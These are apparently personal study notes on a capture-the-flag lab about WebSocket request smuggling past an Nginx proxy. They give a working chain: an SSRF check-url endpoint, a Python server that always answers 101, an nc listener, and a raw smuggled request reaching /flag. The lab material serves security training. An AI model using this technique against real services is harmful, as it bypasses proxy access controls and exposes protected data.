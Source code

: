 So far, we've been working with a proxy that won't check the web server's response to determine whether the WebSocket upgrade was successful. In this task, we'll replace the vulnerable Varnish proxy with an Nginx proxy that checks responses before tunnelling requests through a WebSocket connection. The backend application will still have the `/socket` endpoint enabled with WebSockets and the `/flag` endpoint as our target. The new application can be accessed via `http://MACHINE_IP:8002/`.

First, let's try running the payload we used in the previous task to see if it works:
	![](Pasted%20image%2020250215034145.png)

Notice how Nginx won't leak the flag despite getting a `426` response for the initial WebSocket upgrade attempt. Since Nginx is checking the response code of the upgrade, it can determine that no valid WebSocket connection was established; therefore, it won't allow us to smuggle the `/flag` request.


## Tricking the Proxy
Since we can't just smuggle requests anymore, we need to find a way to trick the proxy into believing a valid WebSocket connection has been established. This means we need to somehow force the backend web server to reply to our upgrade request with a fake `101 Switching Protocols` response without actually upgrading the connection in the backend.

While we won't be able to do this for all applications, if our target app has some vulnerability that allows us to proxy requests back to a server we control as attackers, we might be able to inject the `101 Switching Protocols` response to an arbitrary request. In these special cases, we should be able to smuggle requests through a fake WebSocket connection again.
	![](Pasted%20image%2020250215034337.png)

## Leveraging SSRF
In this task's application, we will take advantage of an SSRF vulnerability to simulate a fake WebSocket upgrade. After a quick inspection, we can see that the application allows us to test the status of a URL. Each time we input a URL, the server will make a request to `http://MACHINE_IP:8002/check-url?server=<url>` and return the status code from the corresponding response:
	![](Pasted%20image%2020250215034452.png)

We can use `nc` in our AttackBox to check if we can direct a request to ourselves. We should get a response similar to this one:

```shell-session
nc -lvp 5555
Listening on 0.0.0.0 5555
Connection received on MACHINE_IP 52988
GET /test HTTP/1.1
Host: 10.10.11.155:5555
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

This means we can successfully use the SSRF vulnerability to influence the response of the backend server. All we need to do is spin up a web server that returns a `101` status, allowing us to fake a WebSocket upgrade.

### Attacker's Web Server
We can quickly set up a web server that responds with status 101 to every request with the following Python code:
```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

Let's save the code to a file named myserver.py in our AttackBox and run it with the following command. This should spin up a web server on port 5555 that will reply with a 101 status code to any request.

```shell
python3 myserver.py 5555
```


### Faking a WebSocket
We are finally ready to launch our payload. Let's use Burp's Repeater to send a request to **/check-url** against our malicious server. The request should look like this:

```shell
GET /check-url?server=http://10.10.11.155:5555 HTTP/1.1
Host: MACHINE_IP:8002
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: MACHINE_IP:8002
```

If all goes as expected, you should get a request in your malicious web server and the flag value in Burp:
	![](Pasted%20image%2020250215035020.png)

Explanation: 
	1) SSRF must be present as we have the to trick the backend server to make request against our malicious server
	2) we have to configure our malicious server to respond with 101 (upgrading sockets)
	3) the SSRF request will be forwarded to proxy and proxy will forward it to the backend.
	4) backend will establish the connection with our server and will forward the malicious response to proxy which will check only the status code (101)
	5) tunneling between backend and client is established and proxy will now forward the backend server response with sensitive data (in this way we are bypassing the ngnix proxy restriction)

**Note:**
	Remember that `/check-url` is not a WebSocket endpoint. We are just manipulating both the request and response that the proxy gets to make it believe this is a real WebSocket. This means that the proxy will tunnel the second request in our payload as if it were part of a WebSocket connection, but the backend will just process the request as HTTP since there's no WebSocket in reality.


**More info:**
- https://github.com/0ang3el/websocket-smuggle